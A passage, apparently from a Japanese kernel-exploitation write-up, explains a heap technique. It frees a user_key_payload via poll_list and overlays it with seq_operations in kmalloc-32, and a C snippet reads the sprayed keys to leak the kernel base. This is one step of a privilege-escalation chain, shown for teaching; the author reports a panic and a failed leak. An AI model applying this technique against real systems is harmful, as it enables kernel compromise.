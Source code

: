 ![user_key_payload is pointed to by poll_list.next](./key-polllist.png)

完璧ですね。これであとは数秒待って`poll`をタイムアウトさせることで、`poll_list`が先頭から順にfreeされていきます。`user_key_payload`もfreeされてしまいます。よって、こいつの上に新しく何らかの構造体を置いてあげましょう。`kmalloc-32`に入っていて、且つkptrを含んでいるものなら何でもいいです。今回は`seq_operations`を使ってみます:

```seq_operations.c
  // Check all keys to leak kbase via `seq_operations`
  char keybuf[0x100] = {0};
  ulong leaked = 0;
  for (int ix = 0; ix != NUM_KEY_SPRAY; ++ix) {
    memset(keybuf, 0, 0x100);
    if(keyctl_read(keys[ix], keybuf, 0x100) < 0) errExit("keyctl_read");
    if (strncmp(keybuf, "AAAA", 4) != 0) {
      leaked = *(ulong*)keybuf;
    }
  }
  if (leaked == 0) {
    puts("[-] Failed to leak kbase");
    exit(1);
  }
  printf("[!] leaked: 0x%lx\n", leaked);
```

![panic, but leak fails](./panic.png)
